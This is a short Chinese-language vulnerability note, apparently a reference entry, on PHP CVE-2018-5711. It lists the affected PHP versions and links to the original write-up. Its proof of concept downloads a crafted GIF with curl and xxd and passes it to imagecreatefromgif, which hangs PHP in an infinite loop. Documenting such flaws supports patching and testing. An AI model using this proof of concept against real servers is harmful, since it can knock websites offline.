 参考：
- http://blog.orange.tw/2018/01/php-cve-2018-5711-hanging-websites-by.html?spm=a2c4g.11186623.2.11.621a6678RvxHft
- https://gist.githubusercontent.com/orangetw/adb0e2519df267eb54d8b68027a91d4c/raw/7a7d6938f59dd89e9a9b7304d71f8f6640609479/poc.gif.xxd

利用范围：
- PHP 5 < 5.6.33
- PHP 7.0 < 7.0.27
- PHP 7.1 < 7.1.13
- PHP 7.2 < 7.2.1


### poc

```bash
$ curl -L https://git.io/vN0n4 | xxd -r > poc.gif
$ php -r 'imagecreatefromgif("poc.gif");'

  Infinite loop here...
```